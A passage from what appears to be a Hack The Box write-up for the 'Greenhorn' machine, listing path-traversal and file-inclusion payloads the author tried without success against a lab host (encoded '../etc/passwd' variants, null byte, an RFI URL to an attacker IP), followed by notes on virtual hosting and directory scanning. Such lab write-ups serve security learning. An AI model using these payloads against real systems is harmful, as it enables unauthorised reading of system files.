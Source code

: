 ![Intruder](/assets/images/HTB%20-%20Greenhorn/Burp%20Intruder.png)

The LFI attack didn't work, I tried the following:

- URL encoding didn't work (file=%2e%2e%2f%2e%2e%2fetc/passwd)
- Null byte didn't work (file=../../etc/passwd%00)
- Double encoding (file=%252e%252e%252f%252e%252e%252fetc%252fpasswd)
- Unicode encoding (/?file=%C0%AE%C0%AE/%C0%AE%C0%AE/etc/passwd)
- RFI (http://greenhorn.htb/?file=http://10.10.10.36:9001/test.txt)
- Various XSS attacks
  
Since this box is using virtual hosting (as we discoverd earlier when we couldn't resolve greenhorn.htb) Our ferox directory scan provided by autorecon likely didn't find anything

![gobuster scan](/assets/images/HTB%20-%20Greenhorn/gobuster%20scan.png)
